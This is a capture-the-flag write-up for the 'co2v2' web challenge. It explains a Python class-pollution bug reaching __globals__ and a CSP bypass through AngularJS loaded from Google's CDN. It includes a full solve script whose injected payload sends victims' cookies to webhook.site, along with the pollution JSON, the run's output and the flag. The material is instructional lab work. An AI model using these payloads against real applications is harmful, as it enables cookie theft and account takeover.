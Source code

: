 ```yaml
---
created: 2024-07-06T16:35
updated: 2024-08-05T19:46
title: co2v2
solves: 59
points: 222
description: '"Payload primed, initiate deployment."'
tags:
  - csp-bypass
---
```


## Analysis

### `/admin/update-accepted-templates`
This route changes the environment, if we can change the value of `TEMPLATES_ESCAPE_ALL` to `False`, we will disable XSS protection.

### `/save_feedback`
This route uses a fancy merge function that after verification, is indeed vulnerable to "prototype" pollution.

### `script-src 'self' 'nonce-{nonce}' https://ajax.googleapis.com;`
The CSP rule can be bypassed by using libraries from `https://ajax.googleapis.com`, such as the infamous angular xss method.

## "Prototype" Pollution

We are essentially changing values on global by hijacking the merge command to do our bidding.

```json
{
    "__class__": {
        "__init__": {
            "__globals__": {
                "TEMPLATES_ESCAPE_ALL": false,
                "os":{"environ":{"APP_URL":"hijacked"}}
            }
        }
    }
}
```

## Attack Flow

1. Sign up & sign in
2. `/create_post` XSS payload note (angular + prototype)
3. `/save_feedback` with pollution payload to change value of `TEMPLATES_ESCAPE_ALL` to false.
4. `/admin/update-accepted-templates` Ask server to update policy (it will use the new value of `TEMPLATES_ESCAPE_ALL=False`)
5. `/api/v1/report` (no modification to default environ needed)
6. Check webhook

## Solve Script

```python
import requests
import random
import string

webhook = "https://webhook.site"
target = "https://web-co2v2-f4243a8e077ecefb.2024.ductf.dev"
session = requests.Session()


def generate_random_string(length):
    letters = string.ascii_letters
    return ''.join(random.choice(letters) for _ in range(length))


def regAndLogin():

    username = generate_random_string(6)
    password = generate_random_string(6)

    data = session.post(f'{target}/register', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to register", data.status_code)
        exit(1)
    data = session.post(f'{target}/login', data={
        "username": username,
        "password": password
    })
    if data.status_code != 200:
        print("failed to login", data.status_code)
        exit(1)
    print("logged in")


def createPost():
    data = session.post(f'{target}/create_post', data={
        "title": f"""
<script src=https://ajax.googleapis.com/ajax/libs/angularjs/1.0.1/angular.js></script>
<script src=https://ajax.googleapis.com/ajax/libs/prototype/1.7.2.0/prototype.js></script>
<body class="ng-app" ng-csp>
{{{{$on.curry.call().fetch("{webhook}?"+$on.curry.call().document.cookie.toString(),{{mode:"no-cors"}})}}}}
</body>
        """,
        "content": """script loader""",
        "public": 1
    })
    if data.status_code != 200:
        print("failed to create post", data.status_code, data.text)
        exit(1)
    print("payload created")


def polluteRemote():
    data = session.post(f'{target}/save_feedback', json={
        "__class__": {
            "__init__": {
                "__globals__": {
                    "TEMPLATES_ESCAPE_ALL": False,
                    # "os": {"environ": {"APP_URL": url}} # yes i can change environ
                }
            }
        }
    })
    print("pollution complete", data.text)


def disableProtection():
    data = session.post(f'{target}/admin/update-accepted-templates', json={
        'policy': 'strict'
    })
    print("protection disabled", data.text)


def activatePayload():
    data = session.get(f'{target}/api/v1/report')
    print("payload activated", data.text)


regAndLogin()
createPost()
polluteRemote()  # "http://co2v2:1337")
disableProtection()
activatePayload()

# logged in
# payload created
# pollution complete {"success":"true"}
# protection disabled {"success":"true"}
# payload activated {"status":202}
```

```flag
DUCTF{_1_d3cid3_wh4ts_esc4p3d_}
```
